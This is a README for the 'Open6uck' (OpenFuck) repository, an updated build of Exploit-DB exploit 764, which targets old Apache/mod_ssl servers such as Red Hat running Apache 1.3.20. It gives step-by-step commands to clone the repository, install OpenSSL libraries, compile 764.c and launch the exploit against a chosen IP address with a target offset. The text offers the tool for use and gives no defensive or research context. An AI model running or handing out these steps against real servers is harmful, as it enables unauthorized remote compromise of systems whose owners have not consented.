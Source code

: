 # Open6uck
Original Name is OpenFuck, but i changed it for some reasons
This is a tool to exploit apache server

## Usage
This Exploit (https://www.exploit-db.com/exploits/764/) is outdated.

Below you can take updated exploit file
1. Download 764.c
~~~
git clone https://github.com/dillu345/OpenFuck.git
~~~
2. Install libssl-dev & libssl1.0dev
~~~
apt install libssl-dev
apt install libssl1.0 dev
~~~

3. Now Compile
~~~
gcc -o OpenFuck 764.c -lcrypto
~~~
4. Run the exploit
~~~
./OpenFuck
~~~
5. See which service you want to exploit. For example if you need to exploit Red Hat Linux, using apache version 1.3.20.
~~~
./OpenFuck 0*6b [IP Address] -c 50
~~~
